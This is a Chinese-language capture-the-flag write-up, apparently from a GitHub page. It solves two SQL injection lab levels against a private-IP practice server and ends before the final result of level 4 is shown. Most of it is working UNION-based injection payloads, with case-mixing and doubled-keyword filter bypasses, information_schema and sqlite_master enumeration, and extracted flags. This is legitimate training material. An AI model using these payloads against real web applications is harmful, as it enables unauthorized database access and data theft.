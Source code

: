 # LEVEL 3
__大小写绕过__

`http://10.140.32.159:21002/level3/?id=1' OrDer By 5--+`  

发现一共5列   

输入`http://10.140.32.159:21002/level3/?id=1' UniOn sELect daTabAsE(),2,daTabAsE(),4,daTabAsE()--+`   

查表`http://10.140.32.159:21002/level3/?id=1'UniOn sELect 1,tAbLe_NaMe,3,4,5 fRoM iNfOrMaTiOn_sChEmA.tAbLeS wHeRe tAbLe_sChEmA='level3'--+`  

得出两个表名：secret和leveell3_user  

然后`http://10.140.32.159:21002/level3/?id=1'UniOn sELect 1,coLUmn_nAmE,3,4,5 fRoM iNfoRmatIon_sCHeMa.colUmns WheRE taBle_nAme='secret'--+` 

reeeal_flllag   

得到了字段名，便可以查看具体字段   

`http://10.140.32.159:21002/level3/?id=1'UniOn sELeCt 1,reeeal_flllag,3,4,5 FroM secret--+`  

得到结果flag{2b994623-0028-9e8a-b356-0b0ea498b549}  


# LEVEL 4
__sqlite3真好玩嘻嘻__
先用'闭合试试，发现报错信息： 
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'1''" in /html/level4/index.php on line 28   

Sorry, Error!    
之后正常做题真做不出来    
联系题目和报错信息，发现这个数据库好像不是mysql而是sqlite3, 然后改变做法，  
     
首先检测注入类型，发现是字符型注入  

`http://10.140.32.159:21002/level4/?id=1' order by  --`  

数据库是sqlite3    3.34.1  

`http://10.140.32.159:21002/level4/?id=1' UNUNIONION SELSELECTECT 1,name ,1,1 FROM sqlite_master WHERE type='table'--`  

获得level444_user，ffflllllllaaaaaaaagggggggg   

`http://10.140.32.159:21002/level4/?id=1' UNIUNIONON SESELECTLECT NULL,sql, NULL, NULL FROM sqlite_master WHERE type='table' AND name='ffflllllllaaaaaaaagggggggg' --`    

返回`CREATE TABLE ffflllllllaaaaaaaagggggggg ("fl**ag" VARCHAR (50))`  
    
此处直接输入`http://10.140.32.159:21002/level4/`   
`?id=1' UNIUNIONON SESELECTLECT NULL,fl**ag, NULL, NULL FROM ffflllllllaaaaaaaagggggggg --`  

**不可行**   *会报错，所以用[]括起来。   

`http://10.140.32.159:21002/level4/`  
`?id=1' UNIUNIONON SESELECTLECT NULL,[fl**ag], NULL, NULL FROM ffflllllllaaaaaaaagggggggg --`   
